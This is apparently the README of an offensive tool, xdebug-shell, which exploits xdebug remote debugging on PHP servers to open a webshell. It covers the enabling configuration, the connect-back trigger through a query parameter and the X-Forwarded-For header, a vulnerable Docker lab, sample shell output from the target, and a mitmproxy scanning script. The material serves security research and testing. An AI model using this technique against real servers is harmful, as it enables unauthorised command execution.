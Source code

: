 # xdebug-shell

Exploiting xdebug to get remote command execution is not new:

* https://redshark1802.com/blog/2015/11/13/xpwn-exploiting-xdebug-enabled-servers/
* https://ricterz.me/posts/Xdebug:%20A%20Tiny%20Attack%20Surface

It is always cool to have a webshell.

## What is xdebug ?

Xdebug is a php extension that allows to debug php pages, remotely by using DGBp protocol. Code repository is located at [xdebug](https://github.com/xdebug/xdebug).

Code execution is possible via injections that exist in `eval` or `property_get` xdebug commands.

## How to activate it ?

For a reverse shell to work, xdebug configuration needs to include:

```
xdebug.remote_enable=true
xdebug.remote_connect_back=true
```

In order to start xdebug, add `XDEBUG_SESSION_START` to query parameters. Remote server will try to connect back to user on port tcp/9000. The endpoint where to connect to can be altered using `X-Forwarded-For` header. For example, if using Docker for Mac to run the xdebug Docker image supplied, you may use `docker.for.mac.localhost` as value.

## How to start a Docker vulnerable image ?

Go into vulnerable-xdebug and type:

```
$ docker build -t vulnerable-xdebug .
$ docker run -ti --rm -p 8080:80 vulnerable-xdebug
AH00558: httpd: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
```

[Dockerfile](vulnerable-xdebug/Dockerfile) is based on Centos 7.4.1708 image.

## Get a webshell

```
$ ./xdebug-shell.py --local-host=docker.for.mac.localhost http://127.0.0.1:8080/phpinfo.php
>> id
uid=48(apache) gid=48(apache) groups=48(apache)
>> pwd
/var/www/html
>> uname -a
Linux b8db2353f675 4.9.60-linuxkit-aufs #1 SMP Mon Nov 6 16:00:12 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
>> cat /etc/redhat-release
CentOS Linux release 7.4.1708 (Core)
>> lsmod
Module                  Size  Used by
xfrm_user              32768  1
xfrm_algo              16384  1 xfrm_user
>> ^D
```

## How to scan for xdebug ?

You can use this mitmproxy script [activate-xdebug.py](activate-xdebug.py):

```
$ mitmdump -dd -s "./activate-xdebug.py docker.for.mac.localhost"
```

The script will add xdebug parameter, and add X-Forwarded-For header for the reverse connect to succeed.
